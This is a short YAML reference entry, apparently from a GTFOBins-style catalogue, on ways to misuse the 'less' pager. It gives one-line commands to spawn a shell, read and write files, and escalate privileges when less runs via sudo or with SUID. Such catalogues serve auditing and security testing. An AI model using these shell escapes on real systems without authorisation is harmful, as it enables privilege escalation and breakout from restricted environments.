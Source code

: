 ```yaml
---
functions:
  execute-interactive:
    - code: |
        less /etc/profile
        !/bin/sh
    - code: |
        VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
        v
  file-read:
    - code: less file_to_read
  file-write:
    - code: |
        echo DATA | less
        sfile_to_write
        q
  sudo-enabled:
    - code: |
        sudo less /etc/profile
        !/bin/sh
  suid-enabled:
    - code: |
        ./less file_to_read
        !/bin/sh
---
```

